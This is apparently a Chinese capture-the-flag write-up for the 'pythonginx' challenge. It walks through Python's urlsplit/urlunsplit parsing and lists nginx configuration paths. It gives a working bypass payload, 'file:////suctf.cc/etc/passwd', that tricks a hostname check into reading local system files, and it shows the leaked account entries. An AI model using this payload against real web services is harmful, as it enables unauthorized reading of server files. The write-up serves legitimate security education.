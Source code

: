 大致意思就是第一二次判断时netloc不是 suctf.cc，第三次要是suctf.cc,就返回url的网页源码

题目标题是pythonginx，提示nginx，nginx文件路径如下

```
配置文件存放目录：/etc/nginx
主配置文件：/etc/nginx/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
网站配置文件：/usr/local/nginx/conf/nginx.conf
```



**非预期解**

以下是urlsplit函数源码

```python
def urlunsplit(components):
    scheme, netloc, url, query, fragment, _coerce_result = (
                                          _coerce_args(*components))
    if netloc or (scheme and scheme in uses_netloc and url[:2] != '//'):
        if url and url[:1] != '/': url = '/' + url
        url = '//' + (netloc or '') + url
    if scheme:
        url = scheme + ':' + url
    if query:
        url = url + '?' + query
    if fragment:
        url = url + '#' + fragment
    return _coerce_result(url)
```

这个函数的作用就是如果截取的URL（也就是path的位置）包含//就不再处理path。

也就是`scheme:////netloc/path;parameters?query#fragment`经过urlsplite处理后会变成

```
scheme='scheme', netloc='', path='//netloc/path;parameters', query='query', fragment='fragment'
```

再经过urlunsplit处理后会变成

```
scheme://netloc/path;parameters?query#fragment
```

如果传入的url是

```
file:////suctf.cc/etc/passwd
```

会返回主机的用户记录

```bash
root:*:17647:0:99999:7:::
daemon:*:17647:0:99999:7:::
bin:*:17647:0:99999:7:::
sys:*:17647:0:99999:7:::
sync:*:17647:0:99999:7:::
games:*:17647:0:99999:7:::
man:*:17647:0:99999:7:::
lp:*:17647:0:99999:7:::
mail:*:17647:0:99999:7:::
news:*:17647:0:99999:7:::
uucp:*:17647:0:99999:7:::
proxy:*:17647:0:99999:7:::
www-data:*:17647:0:99999:7:::
```
